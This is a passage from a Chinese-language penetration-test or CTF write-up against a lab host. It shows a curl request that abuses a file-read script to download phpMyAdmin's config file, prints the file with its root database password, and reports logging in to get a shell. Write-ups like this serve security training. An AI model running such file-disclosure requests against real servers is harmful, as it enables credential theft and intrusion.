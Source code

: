 ### 0x441 检查 phpmyadmin 配置文件

这里主要是靠运气，当看见 `phpmyadmin` 的登陆页面的时候，脑子里突然出现了一个大胆的想法，就是检查一下 `phpmyadmin` 的配置文件，然而果不其然。

`curl http://192.168.248.161/test.php --data file=phpmy/config.inc.php > config.inc.php`

`config.inc.php` :

```php
<?php

/* Servers configuration */
$i = 0;

/* Server: localhost [1] */
$i++;
$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

$cfg['DefaultLang'] = 'en-utf-8';
$cfg['ServerDefault'] = 1;
$cfg['UploadDir'] = '';
$cfg['SaveDir'] = '';


/* rajk - for blobstreaming */
$cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
$cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
$cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
$cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';


?>
```

竟然发现了 `root` 的账号密码，简直是意外之喜啊。

成功使用这个账号密码登陆，得到 `shell` 。

